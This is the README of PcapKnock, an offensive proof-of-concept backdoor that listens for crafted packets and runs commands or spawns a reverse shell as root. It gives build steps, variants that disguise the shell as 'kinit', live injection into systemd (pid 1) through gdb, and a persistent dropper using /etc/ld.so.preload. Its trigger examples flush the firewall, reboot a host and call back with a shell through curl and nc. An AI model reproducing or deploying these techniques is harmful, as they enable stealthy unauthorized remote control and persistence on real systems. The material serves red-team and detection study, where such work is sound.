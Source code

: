 PcapKnock
=========
PcapKnock listens for specially-crafted packets and either runs a command or
spawns a reverse shell based on the contents of the packets.  It is meant for
use as a PoC; there is no encryption or authentication.  It can either be built
as a standalone binary or an injectable library.

Tested on:
- OpenBSD
- Linux (CentOS)

For legal use only.

Building
--------
The [`build.sh`](./build.sh) script will try to produce binaries and shared
object files, but may well need tweaking.  On Linux, expect to have to wrestle
your distro's package manager.  On OpenBSD and FreeBSD, it just works.

The library and binaries will go into `built/$(uname -s)` in the source tree.
The built files are as follows:

Name                          | Purpose
------------------------------|--------
`pcapknock.standalone`        | "Normal" standalone binary.  Nohup it and run it in in the backgroud.
`pcapknock.standalone.daemon` | Standalone binary which forks itself into the background.
`pcapknock.standalone.debug`  | Standalone binary which prints debugging info.
`pcapknock.so`                | Injectable library
`pcapknock.pid1-injector`     | All-in-one injector targeting [init](#live-injection)
`pcapknock.systemd.so`        | Systemd-specific [preloadable](#persistent-injection) library
`systemd_dropper.sh`          | Dropper which [preloads](#persistent-injection) vi `pcapknock.systemd.so` via `/etc/ld.so.preload`


Usage
-----
Once pcapknock is running as root, all that's required to trigger it is a
packet containing either a command to run surrounded by `COMMAND...COMMAND` or
an address to which to call back with a shell surrounded with
`CALLBACK...CALLBACK`.

Trigger examples:
```bash
# Drop the Linux firewall
echo 'iptables -P INPUT ACCEPT; iptables -P OUTPUT ACCEPT; iptables -F' | nc -u <TARGET> 53

# Reboot a box
dig @target COMMANDrebootCOMMAND

# Call back on port 80
(sleep 1 && curl -sv -d 'CALLBACK<LOCALIP>:80CALLBACK' http://target) & nc -nvl 80
```

For either a callback or a command, a shell is spawned, disassociated from the
parent process, and run with the name (i.e. `argv[0]`) `kinit`.  The name may
be changed in [`config.h`](./config.h).

Configuration
-------------
Three compile-time preprocessor macros may be set when building to control
aspects of pcapknock's behavior.

Macro            | Effect
-----------------|-------
`DEBUG`          | Prints helpful debugging messages
`DAEMON`         | Causes the standalone binary builds to disassociate from the controlling terminal (What you probably want)
`PRELOADSYSTEMD` | Buid a library suitable for injection into systemd via `/etc/ld.so.preload`.

The compiled binaries and shared object files will have the above appended to
their names.

Further compile-time configuration can be performed by editing
[`config.h`](./config.h), but in general, this shouldn't be necessary.

There is no runtime configuration.

Linux Injection
---------------
On Linux, an few additional files are built for injecting into systemd either
on a running system or on boot vi `/etc/ld.so.preload`.

### Live Injection
The program `pcapknock.pid1-injector` loads `pcapknock.so` and gdb into memory
and uses gdb to shove pcapknock into pid 1, which will likely be systemd.
There should be a line something like
```
$1 = (void *) 0x559ea705d3f0
```
which indicates (likely) success.  If the number on the right is 0, something's
gone wrong.

In either case, expect a lot of mesages like
```
kernel:systemd[1]: segfault at 7ffff81e3f5f ip 00007ffff81e3f5f sp 00007ffff81e3f50 error 15 
```
Apparently systemd is happy segfaulting.  A "better" description of systemd can
be found in https://amzn.com/B075DYXZW1.

### Persistent Injection
Using `/etc/ld.so.preload`, pcapknock can be loaded into systemd from boot by
pointing it at `pcapknock.systemd.so`.  The library will also be loaded into
every other process, but it only sniffs if it finds itself in the process with
pid 1.  A convenient dropper, `systemd_dropper.sh`, will write the library to
disk as '/usr/local/sbin/libpk.so.4` and add it to `/etc/ld.so.preload`.
